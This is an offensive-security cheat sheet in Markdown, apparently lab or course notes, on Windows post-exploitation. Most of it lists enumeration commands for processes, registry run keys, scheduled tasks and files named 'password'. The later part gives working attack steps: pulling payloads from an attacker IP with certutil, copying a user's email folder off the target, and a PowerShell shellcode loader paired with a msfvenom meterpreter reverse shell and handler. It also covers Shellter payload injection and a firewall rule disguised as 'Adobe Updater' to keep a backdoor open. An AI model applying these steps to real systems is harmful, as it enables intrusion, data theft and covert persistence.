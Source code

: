 # Windows Post Exploitation

## Commands to Run on Connection

````bash
Whoami 
hostname 
ipconfig  /all 
date /t 
time /t 
tasklist /V 
systeminfo 
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
tasklist /M /FI "IMAGENAME eq taskhostw.exe" !!IF FOUND IN ABOVE CMD OUTPUT!! 
  wmic process where (processid=PROCID_HERE) get parentprocessid 
tasklist /svc 
tasklist /m 
auditpol /get /category:* 
netstat /anob 
netsh advfirewall show allprofiles 
net share 
net user 
reg query "HKLM\software\microsoft\windows defender" /s 
reg query hklm\software\microsoft\windows\currentversion\run 
reg query hklm\software\microsoft\windows\currentversion\runonce 
reg query hklm\software 
reg query hkcu\software\microsoft\windows\currentversion\run 
reg query hkcu\software\microsoft\windows\currentversion\explorer\mountpoint2 
at 
schtasks /query /v /fo list   
      schtasks /query /v /fo list | findstr .exe 

#Look for unusual directories 
dir /o:d /t:w c:\ 
dir /o:d /t:w c:\windows\temp 
dir /o:d /t:w c:\windows\ 
dir /o:d /t:w c:\windows\system32 
dir /o:d /t:w "%appdata%\microsoft\windows\start menu\programs\startup" 
dir /o:d /t:w "c:\Program Files" 
dir /o:d /t:w "c:\Program Files (x86)" 
dir /o:d /t:w c:\windows\system32\winevt\logs 

Wevtutil qe security /c:25 /rd:true /f:text #whatever has updated from previous dir
wevtutil qe security "/q:*[System [(EventID=4648)]]" /c:25 /rd:true /f:text  
wevtutil el                
4698 - sch task created    1102 - System/Eventlog - audit log cleared  

#Enumerate installed applications. 
wmic product get name, version, vendor #AND check recent updates to system 
wmic qfe get Caption, Description, HotFixID, InstalledOn 

#Check world writable files 
accesschk.exe -uws "Everyone" "C:\Program Files" 
PS C:\Tools\privilege_escalation\SysinternalsSuite>Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"} 

#Additional Commands
reg query "" /s 
schtasks /query /XML | Findstr /I "<!-- <command>" 
certutil -dump "C:\path\to\file" 
certutil -hashfile "C:\path\to\file" MD5  !!HASH A FILE!! 
ssh -S /tmp/Tgt#.sock student6@127.0.0.1 -p port 'for %F in (C:\<filelocation>\*) do @certutil -hashfile "%F" MD5' > /locationOnKali #HASH REMOTE FILES ON KALI!! 

for /R "C:\" %f in (*.eml) do certutil -hashfile "%f" MD5 | findstr /R "^[a-fA-F0-9]*$" 
scp -T -r -o ControlPath=/tmp/T# -P 400# student6@127.0.0.1:'"C:\Users\student6\email"' ~/boudy_030320_TGT05/T#-exfil/. 
on Kali_OpStation: 
find ~/boudy_030320_TGT05/T#-exfil/ -type f -exec md5sum {} + 

for /R "C:\Users\student6\test" %f in (*) do certutil -hashfile "%f" MD5 |findstr /v "MD5 successfully" 

# Manual Search 

#The following command searches the system for files that contain ‘password’ in the filename: 

dir /s *password* 

#To gather system information: 

systeminfo 

#To check the OS version: 

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" 

#To check active network connections: 

netstat -ano 

#To check for firewall settings: 

netsh firewall show state 

netsh firewall show config 

#To check the scheduled tasks: 

schtasks /query /fo LIST /v 

#To check running processes linked to services: 

tasklist /SVC 

#To check for running services: 

net start 

#To check for installed drivers: 

DRIVERQUERY 

#With the following command you can check for installed patches: 

wmic qfe get Caption,Description,HotFixID,InstalledOn 
````

## Scrips for PrivEsc

1. WinPEAS collection contains two versions of the tool: the winPEAS.exe and the winPEAS.bat script. In order to use the winPEAS.exe tool, it is required that the .NET Framework 4.0 is installed on the system. The winPEAS.bat batch script can run on any system that does not have .NET Framework 4.0 installed. 

    - Check if .net framework is 4.0: 
    - `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\full" /v version`
    - If not already download .exe/clone repository here. 
2. Transfer the file over via any method you like. 
3. Run 

## File Transfer

**Linux -> Windows (Base 64)**
***

- This method is good for evading certain firewall rules.

1.  Copy contents 

    - `base64 [file] | xclip -selection -clipboard` 

2. On Windows: open notepad, paste and save as txt on desktop 

3. On Windows terminal, cd to desktop run: 

    - `certutil -decode [file].txt [file].exe` 

**Linux -> Windows (python server)**
***

1. Host your file with your python server.
2. Pull the file with certutil
    - `certutil.exe -urlcache -f http://{attacker IP}/{your file name}`

**FTP**
***
1. Host the files from your attacker machine: `python -m pyftpdlib 21`
2. Connect to ftp from the target machine: `ftp {attacker IP}`

**Powershell**
***

1. Adjust this script to fix shellcode below and transfer the file to the victim. 

````powershell
$code = ' 

[DllImport("kernel32.dll")] 

public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocat 

ionType, uint flProtect); 

[DllImport("kernel32.dll")] 

public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 

IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); 

[DllImport("msvcrt.dll")] 

public static extern IntPtr memset(IntPtr dest, uint src, uint count);'; 

$winFunc = 

Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru; 

[Byte[]]; 

[Byte[]]$sc = <**place your shellcode here**>; 

$size = 0x1000; 

if ($sc.Length -gt 0x1000) {$size = $sc.Length}; 

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40); 

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc 

[$i], 1)}; 

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 }; 
````

2. For the replacement shellcode on line 13 use: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST= {your ip} LPORT={any port} -f powershell` 

3. On the victim machine adjust execution policy with: 

    - `Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser` 

4. Set up the reverse handler on your machine with one line. 

    - `msfconsole -x "use exploit/multi/handler; set RHOST {target IP} set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST {attacker IP}; exploit"`

 

**Shellter**
***

1. Download shellter and wine: 

    - `sudo apt install shellter`

    - `sudo apt install wine`

2. Download a Portable Executable (PE) you wish to inject your payload into. 

3. Run shellter and go through the automated commands. 

4. Run the multi handler using step four above. 

5. If the session dies, make sure you migrate the shell. 

    - `set AutoRunScript post/windows/manage/migrate; exploit` 

> NOTE: Firewalls 
> ***
> If you're established on a windows system poke a hole in the firewall to maintain any backdoors.
> 
> `netsh advfirewall firewall set rule name"Adobe Updater" dir=in protocol=tcp localport=31337 action=allow` 